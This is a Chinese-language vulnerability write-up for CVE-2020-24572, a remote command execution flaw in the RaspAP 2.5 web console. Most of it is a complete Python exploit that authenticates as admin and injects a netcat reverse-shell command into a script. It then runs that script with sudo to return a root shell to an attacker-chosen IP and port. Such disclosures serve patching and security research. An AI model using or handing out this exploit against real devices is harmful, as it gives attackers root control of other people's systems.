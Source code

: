 （CVE-2020-24572）RaspAP 2.5 远程命令执行漏洞
=============================================

一、漏洞简介
------------

在RaspAP
2.5的`include/webconsole.php`中发现了一个问题。借助经过身份验证的访问，攻击者可以使用配置错误（并且实际上不受限制）的Web控制台攻击运行该软件的底层OS（Raspberry
Pi），并在系统上执行命令（包括用于上传文件和执行代码的命令）。

二、漏洞影响
------------

RaspAP 2.5

三、复现过程
------------

### poc

> CVE-2020-24572.py

![1.png](resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId25.png)![2.png](resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId26.png)

    #/usr/bin/python3

    #####################################################
    ##############       deadb0x.io        ##############
    #####################################################
    ###      Proof of Concept for CVE-2020-24572      ###
    ###     (Authenticated) Remote Code Execution     ###
    ###             via Webconsole.php in             ###
    ###                  RaspAP v2.5                  ###
    ###         github.com/billz/raspap-webgui        ###
    ###         github.com/nickola/web-console        ###
    #####################################################
    ### Written by: lunchb0x - Disc. Date: 08/24/2020 ###
    #####################################################
    ###       deadb0x.io/lunchb0x/CVE-2020-24572      ###
    ###         github.com/lb0x/CVE-2020-24572        ###
    #####################################################

    import os
    import sys
    import requests
    from termcolor import colored

    if len(sys.argv) != 6:
        print("---------------------------------------------------------------------------------------")
        print("USAGE: rasp_pwn.py [target_ip] [port] [attacker_ip] [attacker_port] [RaspAP_admin_pass]")
        print("---------------------------------------------------------------------------------------")
        exit(1)

    target = sys.argv[1]
    port = sys.argv[2]
    listener_ip = sys.argv[3]
    listener_port = sys.argv[4]
    raspap_user = "admin"
    raspap_pass = sys.argv[5]

    session = requests.Session()
    session.auth = (raspap_user, raspap_pass)


    json_req_1 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "echo 'touch \/tmp\/f;rm \/tmp\/f;mkfifo \/tmp\/f;cat \/tmp\/f|\/bin\/bash -i 2>&1|nc %s %d >\/tmp\/f' >> \/etc\/raspap\/lighttpd\/configport.sh"%(listener_ip, listener_port)
                            ],
                  "id":6
                  }

    json_req_2 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "sudo /etc/raspap/lighttpd/configport.sh"
                            ],
                  "id":6
                  }

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_1)
    print(colored("[!]", 'green') + " Reverse shell injected")
    print(colored("[!]", 'yellow') + " Sending activation request - Make sure your listener is running . . .")
    os.system("stty -echo")
    input(colored("[>>>]", 'green')+" Press ENTER to continue . . .")
    os.system("stty echo")
    print(colored("\n[!]", 'green') + " You should be root :)")

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_2)
    print(colored("[*]", 'green') + " Done.")


    print(colored("----------------", 'yellow'))
    print(colored("[] deadb0x.io", 'yellow'))
    print(colored("----------------", 'yellow'))

参考链接
--------

> https://deadb0x.io/lunchb0x/cve-2020-24572/
